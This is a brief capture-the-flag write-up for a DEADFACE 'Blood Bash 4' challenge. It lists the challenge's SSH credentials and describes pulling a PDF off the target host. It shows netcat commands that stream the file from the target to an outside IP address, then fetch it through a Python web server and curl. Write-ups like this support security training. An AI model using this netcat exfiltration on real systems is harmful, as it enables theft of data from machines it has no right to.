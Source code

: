 # Blood Bash 4
Points 200
for syyntax

Created by: syyntax

A sensitive file from De Monne was exfiltrated by mort1cia. It contains data relating to a new web portal they're creating for their consumers. Read the contents of the file and return the flag as flag{flag_goes_here}.

Username: bl0ody_mary
Password: d34df4c3
bloodbash.deadface.io:22 

## Get the flag

We find a sus file in the homedirectory of the user 'De Monne Customer Portal.pdf' and instantly thought, this is it.
Just grab it and go... but it cannot be that easy right? 
`sshfs` or `scp` didnt work. `ftp` also didnt work either. But `nc` was installed so we used a friendly webserver and 
opened a listener via nc.

`nc -l -p 4444 > file.pdf`

With this listener active, we could send the file via nc:

`nc -w 3 85.114.145.4 1234 < 'De Monne Customer Portal.pdf'`

Because we send this file to machine in the www, we need to download it:

Open a mini webserver
`python3 -m http.server 8888`

And download the file to get the flag:
'curl http://iam.extern.reach.able:8888/file.pdf'

The flag is in the pdf file
